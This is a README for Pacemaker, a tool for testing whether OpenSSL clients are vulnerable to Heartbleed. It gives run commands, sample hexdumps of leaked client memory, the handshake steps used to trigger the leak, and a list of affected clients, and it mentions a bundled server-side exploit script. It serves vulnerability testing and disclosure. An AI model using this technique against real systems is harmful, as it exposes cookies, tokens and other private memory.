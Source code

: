 # Pacemaker
Attempts to abuse OpenSSL *clients* that are vulnerable to [Heartbleed][0]
([CVE-2014-0160][1]). Compatible with Python 2 and 3.

## Am I vulnerable?
Run the server:

    python pacemaker.py

In your client, open https://localhost:4433/ (replace the hostname if needed).
For example:

    curl https://localhost:4433/

The client will always fail to connect:

    curl: (35) Unknown SSL protocol error in connection to localhost:4433

If you are not vulnerable, the server outputs something like:

    Connection from: 127.0.0.1:40736
    Possibly not vulnerable

If you *are* vulnerable, you will see something like:

    Connection from: 127.0.0.1:40738
    Client returned 65535 (0xffff) bytes
    0000: 18 03 03 40 00 02 ff ff 2d 03 03 52 34 c6 6d 86  ...@....-..R4.m.
    0010: 8d e8 40 97 da ee 7e 21 c4 1d 2e 9f e9 60 5f 05  ..@...~!.....`_.
    0020: b0 ce af 7e b7 95 8c 33 42 3f d5 00 c0 30 00 00  ...~...3B?...0..
    0030: 05 00 0f 00 01 01 00 00 00 00 00 00 00 00 00 00  ................
    0040: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
    *
    4000: 00 00 00 00 00 18 03 03 40 00 00 00 00 00 00 00  ........@.......
    8000: 00 00 00 00 00 00 00 00 00 00 18 03 03 40 00 00  .............@..
    ...
    e440: 1d 2e 9f e9 60 5f 05 b0 ce af 7e b7 95 8c 33 42  ....`_....~...3B
    e450: 3f d5 00 c0 30 00 00 05 00 0f 00 01 01 00 00 00  ?...0...........
    fff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00     ...............


Subsequent lines full of NUL bytes are folded into one with an `*` thereafter
(like the `xxd` tool).

An example where more "interesting" memory gets leaked using
`wget -O /dev/null https://google.com https://localhost:4433`:

    Connection from: 127.0.0.1:41914
    Client returned 65535 (0xffff) bytes
    0000: 18 03 03 40 00 02 ff ff 2d 03 03 52 34 c6 6d 86  ...@....-..R4.m.
    0010: 8d e8 40 97 da ee 7e 21 c4 1d 2e 9f e9 60 5f 05  ..@...~!.....`_.
    0020: b0 ce af 7e b7 95 8c 33 42 3f d5 00 c0 30 00 00  ...~...3B?...0..
    0030: 05 00 0f 00 01 01 65 0d 0a 43 6f 6e 74 65 6e 74  ......e..Content
    0040: 2d 54 79 70 65 3a 20 74 65 78 74 2f 68 74 6d 6c  -Type: text/html
    0050: 3b 20 63 68 61 72 73 65 74 3d 55 54 46 2d 38 0d  ; charset=UTF-8.
    ...
    0b50: 01 05 05 07 02 01 16 2d 68 74 74 70 73 3a 2f 2f  .......-https://
    0b60: 77 77 77 2e 67 65 6f 74 72 75 73 74 2e 63 6f 6d  www.geotrust.com
    0b70: 2f 72 65 73 6f 75 72 63 65 73 2f 72 65 70 6f 73  /resources/repos
    0b80: 69 74 6f 72 79 30 0d 06 09 2a 86 48 86 f7 0d 01  itory0...*.H....
    0b90: 01 05 05 00 03 81 81 00 76 e1 12 6e 4e 4b 16 12  ........v..nNK..
    0ba0: 86 30 06 b2 81 08 cf f0 08 c7 c7 71 7e 66 ee c2  .0.........q~f..
    0bb0: ed d4 3b 1f ff f0 f0 c8 4e d6 43 38 b0 b9 30 7d  ..;.....N.C8..0}
    0bc0: 18 d0 55 83 a2 6a cb 36 11 9c e8 48 66 a3 6d 7f  ..U..j.6...Hf.m.
    0bd0: b8 13 d4 47 fe 8b 5a 5c 73 fc ae d9 1b 32 19 38  ...G..Z\s....2.8
    0be0: ab 97 34 14 aa 96 d2 eb a3 1c 14 08 49 b6 bb e5  ..4.........I...
    0bf0: 91 ef 83 36 eb 1d 56 6f ca da bc 73 63 90 e4 7f  ...6..Vo...sc...
    0c00: 7b 3e 22 cb 3d 07 ed 5f 38 74 9c e3 03 50 4e a1  {>".=.._8t...PN.
    0c10: af 98 ee 61 f2 84 3f 12 00 00 00 00 00 00 00 00  ...a..?.........
    0c20: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
    *
    4000: 00 00 00 00 00 18 03 03 40 00 00 00 00 00 00 00  ........@.......
    ...
    ffd0: 00 00 00 00 5c d3 3c 02 00 00 00 00 49 53 4f 36  ....\.<.....ISO6
    ffe0: 34 36 2d 53 45 2f 2f 00 53 45 4e 5f 38 35 30 32  46-SE//.SEN_8502
    fff0: 30 30 5f 42 2f 2f 00 00 00 00 00 00 00 00 00     00_B//.........

## How does it work?
[TLS heartbeats][2] can be sent by either side of a TLS connection. After the
handshake completes, these heartbeats are encrypted. But apparently OpenSSL
allows heartbeat messages before the handshake is completed. These heartbeats
(on top of the record layer) are not encrypted at all!

This makes it very easy to exploit the bug on clients:

 1. Wait for a ClientHello containing a TLS version and cipher suite.
 2. Send a ServerHello containing the same TLS version and cipher suite (to
    prevent handshake failure).
 3. At this point, the server can send as many heartbeat requests as it likes.

Note that there is *no* need for any certificates as the heartbeats are accepted
before any certificate or encryption keys are exchanged. As the length of the
heartbeat requests are unchecked, [up to 64 kiB][3] memory can be read from
client memory.

pacemaker performs the above steps and assumes a client not to be vulnerable if
step 3 results in data other than Alerts. If needed for some protocols (SMTP
with STARTTLS for example), additional data is exchanged before the TLS
handshake starts.

## Advanced usage
Run `./pacemaker.py -h` for more options. The most important options are
probably `-t` (`--timeout`) and `-x` (`--count`). The default timeout is 3
seconds which should be enough for most clients to respond (unless there is a
satellite link or something).

Example to be more patient per heartbeat (5 seconds) and acquire four heartbeat
responses:

    ./pacemaker.py -t 5 -x 4

In theory, the heartbeats can take twenty seconds now, but in practice you will
get responses much faster.

## Tested clients
The following clients have been tested against OpenSSL 1.0.1f on Arch Linux and
leaked memory before the handshake:

 - MariaDB 5.5.36
 - wget 1.15 (leaks memory of earlier connections and own state)
 - curl 7.36.0 (https, FTP/IMAP/POP3/SMTP with --ftp-ssl)
 - git 1.9.1 (tested clone / push, leaks not much)
 - nginx 1.4.7 (in proxy mode, leaks memory of previous requests)
 - links 2.8 (leaks contents of previous visits!)
 - KDE 4.12.4 (kioclient, Dolphin, tested https and ftps with kde4-ftps-kio)
 - Exim 4.82 (outgoing SMTP)

links is a great example that demonstrates the effect of this bug on clients. It
is a text-based browser that leaks details including headers (cookies,
authorization tokens) and page contents.

# ssltest.py
This repository also contains a working version that targets servers. ssltest.py
was created by Jared Stafford (<jspenguin@jspenguin.org>), all due credits are
to him! It was retrieved from http://s3.jspenguin.org/ssltest.py.

At the moment, the script is only compatible with Python 2.

  [0]: http://heartbleed.com/
  [1]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
  [2]: https://tools.ietf.org/html/rfc6520#section-3
  [3]: http://blog.existentialize.com/diagnosis-of-the-openssl-heartbleed-bug.html
